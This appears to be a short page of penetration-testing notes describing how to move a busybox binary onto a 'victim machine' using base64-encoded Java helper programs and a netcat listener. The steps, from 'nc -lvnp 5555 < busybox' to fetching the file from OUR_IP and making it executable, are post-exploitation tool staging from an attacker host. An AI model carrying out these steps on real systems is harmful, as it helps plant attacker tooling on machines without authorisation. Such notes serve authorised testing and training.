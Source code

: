 ## File transfer with java

#### 1) base64 SocketClient.java

#### 2) echo "BASE64ENCODED" | base64 -d > SocketClient.java (Victim machine)

#### 3) javac SocketClient.java 

#### 4) base64 FilePermissions.java

#### 5)  echo "BASE64ENCODED" | base64 -d > FilePermissions.java (Victim machine)

#### 6) javac FilePermissions.java

#### 7) nc -lvnp 5555 < busybox

#### 8) java SocketClient OUR_IP 5555 > busybox (Victim machine)

#### 9) java FilePermissions (Give busybox permissions to execute)

